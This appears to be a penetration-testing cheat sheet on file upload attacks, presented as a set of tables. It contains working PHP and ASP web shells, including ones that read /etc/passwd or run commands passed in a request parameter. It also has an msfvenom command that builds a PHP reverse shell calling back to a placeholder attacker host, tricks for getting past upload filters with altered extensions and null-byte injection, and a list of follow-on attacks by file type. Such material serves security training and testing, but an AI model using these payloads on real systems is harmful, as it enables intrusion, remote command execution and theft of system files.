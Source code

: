 # File Upload Attacks

**Tip:** Find what language runs the web app by fuzzing the extention of the index page for common file types (/index.FUZZ).

[Wappalyzer](https://www.wappalyzer.com/) can also be used to detect what languages and othertechnologies are used.

## Web Shells

| Web Shell | Description |
|-----------|-------------|
| `<?php echo file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| Command | Description |
|---------|-------------|
| **Client-Side Bypass (firefox shortcuts)** | |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector and amend front end code (also inspect displayed files after upload to find location) or use burp to alter request |
| `[CTRL+SHIFT+K]` | Load browser console to review JS functions by typing their name in |
| **Blacklist Bypass** | |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** | |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
| **Content/Type Bypass** | |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

## Limited Uploads

| Potential Attack | File Types |
|------------------|------------|
| XSS | HTML, JS, SVG, GIF |
| XXE/SSRF | XML, SVG, PDF, PPT, DOC |
| DoS | ZIP, JPG, PNG |